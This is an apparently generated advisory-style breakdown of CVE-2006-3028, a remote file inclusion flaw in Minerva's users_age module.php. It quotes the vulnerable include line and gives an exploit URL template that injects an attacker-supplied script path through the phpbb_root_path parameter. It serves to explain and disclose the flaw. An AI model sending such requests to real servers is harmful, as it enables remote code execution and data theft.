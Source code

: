 Based on the provided content, here's a breakdown of the vulnerability:

**CVE ID:** CVE-2006-3028

**Root Cause:** The vulnerability stems from the insecure usage of the `$phpbb_root_path` variable in Minerva 2.0.8a Build 237. The application includes files using this variable, but it can be manipulated through a GET request.

**Weaknesses/Vulnerabilities:**
*   **Remote File Inclusion (RFI):** The application is vulnerable to RFI, allowing an attacker to include and execute arbitrary remote PHP files.
*   **Unsafe Variable Usage:**  The application directly uses user-supplied input in a file inclusion context without sanitization.

**Impact of Exploitation:**
*   **Arbitrary Code Execution:** By including a malicious PHP file, an attacker can execute arbitrary code on the server, potentially leading to complete system compromise.
*   **Data theft/manipulation**: Arbitrary code execution can allow the attacker to gain access to sensitive data within the system.

**Attack Vectors:**
*   **HTTP GET Request:**  The vulnerability is exploitable via a specially crafted HTTP GET request to the vulnerable `module.php` file. The attacker injects a malicious URL into the `phpbb_root_path` parameter.

**Required Attacker Capabilities/Position:**
*   **Remote, unauthenticated attacker:** The attacker can exploit this vulnerability remotely and does not require any prior authentication.
*   **Network access:** The attacker needs network access to the server hosting the vulnerable application.

**Technical Details:**

*   The vulnerable code is located in `Minerva-237/stat_modules/users_age/module.php`
*   The vulnerable line is:
    ```php
    include_once($phpbb_root_path.'includes/functions_color_groups.'.$phpEx);
    ```
*   The attacker crafts a URL like this:
    `http://www.site.com/[Minerva_path]/stat_modules/users_age/module.php?phpbb_root_path=[evil_scripts]`

**Additional Notes:**

*   The provided information confirms that the vulnerability exists in the latest code (July 2004), at least at the time of the report.
*   The exploit is publicly available (milw0rm.com link)
*   This RFI vulnerability can allow a remote attacker to gain control of the server by including a malicious script